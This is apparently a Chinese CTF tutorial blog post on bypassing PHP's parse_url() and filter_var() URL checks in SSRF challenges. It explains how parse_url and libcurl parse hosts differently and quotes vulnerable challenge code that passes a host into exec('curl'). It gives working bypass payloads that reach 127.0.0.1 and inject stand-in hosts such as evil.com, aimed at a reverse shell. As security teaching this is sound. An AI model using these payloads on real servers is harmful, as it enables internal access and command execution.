 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SSRF中两个函数的绕过               # 标题 
subtitle:    #副标题
date:       2020-03-01              # 时间
author:     Von                      # 作者
header-img: img/post-bg-universe.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Web
    - SSRF

---
```

# 前言
在SSRF中我们经常遇到这两个函数filter_var()和parse_url(),今天来学习一下这两个函数相关的绕过方法.
# parse_url()
## 函数介绍
parse_url用来解析 URL，返回其组成部分(返回一个关联数组)
语法如下:
``` php
 parse_url (url,commpent) : mixed
```
其中,url为需要解析的url(必需),commpent为指定 PHP_URL_SCHEME、 PHP_URL_HOST、 PHP_URL_PORT、 PHP_URL_USER、 PHP_URL_PASS、 PHP_URL_PATH、 PHP_URL_QUERY 或 PHP_URL_FRAGMENT 的其中一个来获取 URL 中指定的部分的 string.(非必需)
## 绕过
我们需要知道libcurl和parse_url的解析差异.
```
完整url: scheme:[//[user[:password]@]host[:port]][/path][?query][#fragment]
这里仅讨论url中不含'?'的情况
php parse_url：
host: 匹配最后一个@后面符合格式的host
libcurl：
host：匹配第一个@后面符合格式的host
```
比如，
```
http://u:p@baidu.com@bilibili.com/
```
parse_url和libcurl的解析分别如下:
```
    parse_url解析结果：
    schema: http 
    user: u
    pass: p@baidu.com
    host: bilibili.com
    
libcurl解析结果：
    schema: http
    host: baidu.com
    user: u
    pass: p
    port: 80
    后面的@bilibili.com/会被忽略掉
```
## 题目分析
题目中部分代码如下:
``` php
<?php
$url = @$_GET['url'];
if (parse_url($url, PHP_URL_HOST) !== "www.baidu.com"){
    die('step 9 fail');
}
if (parse_url($url,PHP_URL_SCHEME) !== "http"){
    die('step 10 fail');
}
$ch = curl_init();
curl_setopt($ch,CURLOPT_URL,$url);
$output = curl_exec($ch);
curl_close($ch);
if($output === FALSE){
    die('step 11 fail');
}
else{
    echo $output;
}
```
结合上面的知识，我们可以构造出如下payload:
```
http://u:p@127.0.0.1:80@www.baidu.com/flag.php
```
# filter_var()
## 函数介绍
filter_var() 函数通过指定的过滤器过滤一个变量。如果成功，则返回被过滤的数据。如果失败，则返回 FALSE。  
语法如下:
``` php
filter_var(variable, filter, options) 
```
其中,variable是判断的字符串(必需),filter是相应的过滤器ID,通常在SSRF中对应的是FILTER_VALIDATE_URL,即判断是不是URL。
## 绕过
在CTF中我们经常见到这样的代码
``` php
   if(filter_var($url, FILTER_VALIDATE_URL)) {
      $r = parse_url($url);
      if(preg_match('/google\.com$/', $r['host'])) 
      {
         exec('curl -v -s "'.$r['host'].'"', $a);
      } else {
         echo "Error: Host not allowed";
      }
   } else {
      echo "Error: Invalid URL";
   }
```
可以想见，题目的解法就是想办法执行curl语句进而利用curl反弹shell,所以关键就在于绕过preg_match,filter_var.
我们需要知道以下知识:
> 许多URL结构保留一些特殊的字符用来表示特殊的含义，这些符号在URL中不同的位置有着其特殊的语义。
字符“;”, “/”, “?”, “:”, “@”, “=” 和“&”是被保留的。
除了分层路径中的点段，通用语法将路径段视为不透明。 生成URI的应用程序通常使用段中允许的保留字符来分隔。例如“；”和“=”用来分割参数和参数值。逗号也有着类似的作用。
例如，有的结构使用name;v=1.1来表示name的version是1.1，然而还可以使用name,1.1来表示相同的意思。当然对于URL来说，这些保留的符号还是要看URL的算法来表示他们的作用。
例如，如果用于hostname上，URL“http://evil.com;baidu.com”会被curl或者wget这样的工具解析为host:evil.com，querything:baidu.com  

知晓了上面的原理后,我们可以构造出这样的结果:
``` 
http://evil.com;google.com
```
但是可以看出,这样并不能通过filter_var的检测.
![](blog_img/ssrf2_1.png)
但当我们修改为:
```
0://evil.com;google.com
```
可以看到，成功进入了exec()语句.
![](blog_img/ssrf2_1.png)
但是这样并不能执行curl语句,我们可以通过制定特定端口即可解决这个问题。于是有最终payload:
```
0://evil.com:80;google.com:80
```
需要注意的是:
```
使用逗号代替分号会出现同样的情况
前面的0可以用其他非协议字段代替
```
另外，当像本题一样当使用了exec()函数而且脚本又使用[host]来创建一个curl HTTP请求时，我们还可以采用以下的payload:
```
0://evil$google.com
```
